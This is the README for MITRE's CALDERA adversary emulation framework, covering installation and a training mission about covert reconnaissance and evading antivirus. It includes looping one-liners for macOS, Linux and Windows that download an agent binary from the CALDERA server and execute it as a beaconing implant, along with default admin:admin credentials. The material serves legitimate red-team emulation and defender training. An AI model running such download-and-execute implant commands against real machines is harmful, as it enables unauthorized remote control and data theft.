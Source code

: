 # CALDERA

CALDERA is an automated adversary emulation system, built on the [MITRE ATT&CK™ framework](https://attack.mitre.org/).

CALDERA works by attaching abilities to an adversary and running the adversary in an operation. Full documentation for this system can be found in the [wiki](https://github.com/mitre/caldera/wiki).

Python 3.5.3+ is required to run this system.

## Installation

Start by cloning this repository recursively. This will pull all available plugins. 
```
git clone https://github.com/mitre/caldera.git --recursive
```

From the root of this project, install the PIP requirements.
```
pip install -r requirements.txt
```

Then start the server.
```
python server.py
```

## Plugins

CALDERA is built using a plugin architecture on top of the core system (this repository). Plugins are 
separate git repositories that plug new features into the core system. Each plugin resides in the plugins
directory. For more information on each plugin, refer to their respective README files.

## Getting started

To understand CALDERA, it helps to run an operation. Below is a pre-built mission you can execute to understand 
the system. This mission assumes CALDERA is running locally.

### Mission #1: Nosy Neighbor

> Perform reconnaissance on a compromised laptop. Your employer needs a list of the laptop user’s preferred WIFI 
networks. Grab this list, collecting anything else along the way, then get out. Quickly. Leave no trace. 
There is one caveat: the laptop’s AV scans the machine in full every minute. You must complete this mission in 
less than 60 seconds. 

Start a 54ndc47 agent on the same computer as CALDERA. Do this by opening a terminal and pasting in the correct
delivery command your operating system. You should be welcomed by a log message indicating the agent has sent
a "beacon" to CALDERA.

**OSX**:
```
while true; do curl -sk -X POST -H 'file:sandcat-darwin' http://localhost:8888/file/download > /tmp/sandcat-darwin && chmod +x /tmp/sandcat-darwin && /tmp/sandcat-darwin http://localhost:8888 my_group; sleep 60; done
```

**Linux**:
```
while true; do curl -sk -X POST -H 'file:sandcat-linux' http://localhost:8888/file/download > /tmp/sandcat-linux && chmod +x /tmp/sandcat-linux && /tmp/sandcat-linux http://localhost:8888 my_group; sleep 60; done
```

**Windows**:
```
while($true) {$url="http://localhost:8888/file/download";$wc=New-Object System.Net.WebClient;$wc.Headers.add("file","sandcat.exe");$output="C:\Users\Public\sandcat.exe";$wc.DownloadFile($url,$output);C:\Users\Public\sandcat.exe http://localhost:8888 my_group; sleep 60}
```

Move to a browser, at http://127.0.0.1:8888, logging in with the credentials admin:admin. 
Click into the Chain plugin and use the "Operations" section to fire off an operation using the "nosy neighbor" 
adversary and the my_group group. Fill in an operation name but leave all other fields at their defaults.

Once the operation is complete, compare the execution time of the first and last commands. Was
the mission a success? Did the adversary run without a trace? Can you figure out why the 
abilities are being run in the order they are?

## Versions

Bleeding-edge code can be run by using the latest master branch source code. Stable versions are tagged
by major.minor.bugfix numbers and can be used by cloning the appropriate tagged version:
```
git clone --branch 2.1.0 https://github.com/mitre/caldera.git --recursive
```

Check the GitHub releases for the most stable release versions.

> **IMPORTANT**: The core system relies on plugins (git submodules). If you are unfamiliar with this concept and want 
to run the bleeding-edge code, a "git pull" on this code will likely not be sufficient. The easiest way to run bleeding-edge
code is to recursively re-clone all of CALDERA when you want to update it.

## Developers

We use the basic feature branch GIT flow. Create a feature branch off of master and when ready, submit a merge 
request. Make branch names and commits descriptive. A merge request should solve one problem,
not many. 

## Licensing

In addition to CALDERA's open source capabilities, MITRE maintains several in-house CALDERA plugins that offer 
more advanced functionality. For more information, or to discuss licensing opportunities, please reach out to 
caldera@mitre.org or directly to MITRE's Technology Transfer Office at 
https://www.mitre.org/about/corporate-overview/contact-us#technologycontact.

## Related MITRE Work

[BRAWL Game](https://github.com/mitre/brawl-public-game-001) - Data set created by the BRAWL project representing
one CALDERA operation with data collected by Microsoft Sysmon and other sensors.

[CASCADE](https://github.com/mitre/cascade-server) - Prototype blue team analysis tool to automate investigative work.

## Acknowledgements

[Atomic Red Team](https://github.com/redcanaryco/atomic-red-team)
